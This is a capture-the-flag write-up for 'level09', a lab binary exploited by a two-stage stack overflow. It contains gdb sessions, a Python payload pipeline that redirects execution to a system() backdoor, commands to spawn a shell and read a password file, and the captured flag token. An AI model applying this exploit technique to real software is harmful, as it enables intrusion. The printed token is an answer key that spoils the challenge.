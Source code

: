 # level09

1. Overview

* Two-step **stack overflow** leading to a clean ret2win into a hidden backdoor.
* `set_username()` can overwrite fields **past** a 140-byte buffer, including the message length used by `set_msg()`.
* `set_msg()` then copies attacker-controlled bytes into the same buffer using that (now attacker-chosen) length, letting us overwrite the **return address**.
* Target function to jump to: `secret_backdoor()`, which runs `system()` on a line read from stdin.

```c
void secret_backdoor(void) {
    char buf[128];
    fgets(buf, 0x80, stdin);
    system(buf);
}
```

2. What the code does (short)

* `handle_msg()` allocates a 140-byte buffer on the stack plus several locals. It sets `msg_len = 0x8c` (140).
* `set_username(buf)` reads up to 0x80 bytes, then copies **up to 0x29 (41) bytes** into **`buf + 0x8c`**. That writes **beyond** the 140-byte buffer into the adjacent locals.
* `set_msg(buf)` reads a message and does `strncpy(buf, msg, *(int *)(buf + 0xb4))`. The length at `buf + 0xb4` is exactly the `msg_len` field we can modify via `set_username()`.
* Overflow with `set_msg()` to smash the return address and point it at `secret_backdoor`.

3. Key offsets (typical x86-64 build)

* `buf`           at offset 0
* `msg_len`       at **offset 180** (`buf + 0xb4`) ← we want to set this high (e.g., 500)
* saved return    around **offset ~200** (varies slightly by build; 200 works in the reference)
* Distance from `buf + 0x8c` (where `set_username` writes) to `msg_len` is **40 bytes** → within the 41-byte copy budget

4. Find `secret_backdoor` address

```gdb
(gdb) b main
(gdb) run
(gdb) p secret_backdoor
$1 = (void (*)(void)) 0x55555555488c   # example
```

Use your own address if it differs.

4.5. Find the exact offset to the return address

```gdb
(gdb) b *handle_msg+100     # breakpoint after set_msg
(gdb) run
# Enter username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf4\x01\x00\x00
# Enter message:  BBBB... (beaucoup de B)
(gdb) p $rsp
$2 = (void *) 0x7fffffffe510      # start of buffer

(gdb) p $rbp + 8
$3 = (void *) 0x7fffffffe5d8      # return address

# Calcul de l'offset :
(gdb) p/d (long)($rbp + 8) - (long)$rsp
$4 = 200                           # Offset = 200 bytes
```

The return address is always at **RBP + 8** on x86-64. Calculate the offset by subtracting $rsp (buffer start) from $rbp + 8.

5. Exploit plan

* **Stage 1 (username):** set `msg_len` to a large value (e.g., `500`). We do this by writing 40 padding bytes, then the little-endian integer `0x000001f4` at `buf+0xb4`.
* **Stage 2 (message):** send `B * <offset_to_RET>` followed by the **little-endian** 8-byte address of `secret_backdoor`.
* Keep stdin open so `secret_backdoor()` can read and execute your command.

6. Commands (single pipeline)

```bash
# Example with secret_backdoor = 0x000055555555488c
(
  python -c "print('A'*40 + '\xf4\x01\x00\x00')";              # Stage 1: msg_len = 500
  python -c "print('B'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')";  # Stage 2: smash RET
  cat                                                     # keep stdin open for backdoor
) | ./level09
```

Then type a command for the backdoor, e.g.:

```bash
/bin/sh
# or directly:
cat /home/users/end/.pass
```

7. Why this works

* `set_username` lets you write **41 bytes** starting at `buf + 0x8c`. Writing 40 bytes of padding plus a 4‑byte integer lands exactly on `msg_len` at `buf + 0xb4`.
* `set_msg` trusts `msg_len` and overflows the 140‑byte buffer with up to `msg_len` bytes, smashing the saved return.
* On function return, control transfers to `secret_backdoor`, which immediately calls `system()` on input you provide.

8. Token

Token found `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
